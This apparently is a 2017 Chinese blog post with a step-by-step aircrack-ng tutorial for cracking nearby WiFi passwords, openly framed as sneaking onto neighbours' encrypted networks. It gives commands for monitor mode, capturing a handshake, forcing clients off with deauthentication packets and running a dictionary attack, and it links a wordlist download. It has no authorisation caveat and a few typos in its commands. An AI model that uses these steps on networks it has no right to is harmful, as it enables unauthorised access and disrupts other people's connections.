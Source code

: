 ```yaml
---
title: Linux 暴力破解WIFI密码
date: 2017-10-07 14:21:47
tags:
- 破解
- 网络安全
categories: 代码笔记
author:
	nick: 王恒

subtitle: linux 暴力破解附近 WiFi 密码，亲测可行。主要你有足够强大的字典以及CPU，理论上可以破解任何密码

cover: /img/20180517-2.jpg
---
```

请一直相信，任何牛逼的技术都是被苦逼的现实需求逼迫的。
当你抱着你的Mac、Iphone、Ipad准备打开王者荣耀，大喊一声“是时候展现真的技术了！”，结果你却发现这TMD没有网！！！啊啊啊啊啊，什么！你说这个世界如果没有了网络，你都找不到活着的意义？no no no，望着周围的一个个加密的wifi。于是，我决定来一场悄无声息的潜入.........

<!-- more -->
### 1.1 运行环境
- ubuntu 16.04
- 可用的无线网卡

### 1.2 安装aircrack
```
# 下载
wget http://download,aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz
# 解压
tar -zxvf aircrack-ng-1.2-rc2.tar.gz
# 进入目录
cd aircrack-ng-1.2-rc2.tar.gz
# 安装
make install
```

### 1.3 打开网络监听
```
# 关闭网络干扰
sudo airmon-ng check kill

# 查看网卡信息
iwconfig

# 打开监听(wlan0 为无线网卡接口名称)
airmon-ng start wlan0
```

### 1.4 监听网络
```
# 可用看到附近的WIFI情况
sudo airodump-ng mon0
```

这时候可用看到周围一些wifi信息，我们破解wifi 用到的是BSSID（路由器 Mac 地址）， CH（频道），ESSID（WIFI 名称）。

### 1.5 监听指定网络并写入文件
终端输入命令
```
sudo airodump-ng --bssid 路由器Mac地址 -c 频道 -w ./mywifi/tmp mon0
# -c 后面是监听指定wifi所在的频道
# -w 后面指定的是文件要写入的路径
# -mon0 是之前我们指定的网卡接口名称
```

### 1.6 获取握手包
打开一个新的终端， 输入
```
sudo aireplay-ng -0 2 -a 路由器 Mac 地址 -c 客户端 Mac 地址 mon0
# -a 后面是监听的路由器Mac地址
# -c 后面的是客户机器的Mac地址（正在连接此路由器的设备）
```

### 1.7 破解密码
此时你的./mywifi 文件夹下面已经写入了一些文件，此时你还缺少.txt字典文件。点击下载[百度云盘字典文件](http://pan.baidu.com/s/1nuDVqwl) 下载密码：wj1e

执行破解

```
# 1.txt 为字典文件
# tmp-02.cap 为 1.6 获取在./mywifi 文件夹下的握手包
sudo aircrack-ng -w 1.txt tmp-02.cap
```
当屏幕出现KEY FOUND! [ 破解出来的密码 ]

### 1.8 善后
 关闭网络监听
 ```
 sudo airmon-ng stop mon0
 ```

开启网络
```
sudo service network-mannger start
```
### 2.0 完
